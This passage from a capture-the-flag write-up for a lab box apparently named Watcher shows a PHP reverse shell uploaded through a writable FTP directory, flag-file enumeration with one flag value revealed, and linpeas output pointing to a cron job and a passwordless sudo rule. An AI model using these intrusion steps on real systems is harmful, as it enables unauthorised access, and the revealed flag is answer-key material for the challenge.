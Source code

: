 
---
## Initial Foothold
---

## upload a php revshell 
- Using the info we got from /home/ftpuser/ftp/files and the fact we can write to the files dir in ftp
	```
	ftp> put shell.php
	local: shell.php remote: shell.php
	229 Entering Extended Passive Mode (|||46415|)
	150 Ok to send data.
	100% |**************************************************************************|  3462       32.36 MiB/s    00:00 ETA
	226 Transfer complete.
	3462 bytes sent in 00:00 (12.01 KiB/s)
	ftp> ls -la
	229 Entering Extended Passive Mode (|||45780|)
	150 Here comes the directory listing.
	drwxr-xr-x    2 1001     1001         4096 Mar 06 18:52 .
	dr-xr-xr-x    3 65534    65534        4096 Dec 03  2020 ..
	-rw-r--r--    1 1001     1001         3462 Mar 06 18:52 shell.php
	226 Directory send OK.
	
	```

- ## on the box
	- ### Enumeration
	```
	www-data@watcher:/home$ find / -type f -iname flag_*.txt 2>/dev/null
	/home/mat/flag_5.txt
	/home/ftpuser/ftp/flag_2.txt
	/home/will/flag_6.txt
	/home/toby/flag_4.txt
	/var/www/html/more_secrets_a9f10a/flag_3.txt
	/var/www/html/flag_1.txt
	
	```
	- ### cat flag_6.txt
	```
	www-data@watcher:/home$ cat /var/www/html/more_secrets_a9f10a/flag_3.txt
	FLAG{lfi_what_a_guy}
	```
- ## linpeas toby
```
╔══════════╣ Cron jobs
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#scheduled-cron-jobs

*/1 * * * * mat /home/toby/jobs/cow.sh

╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for www-data on watcher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on watcher:
    (toby) NOPASSWD: ALL

```
## Privilege Escalation
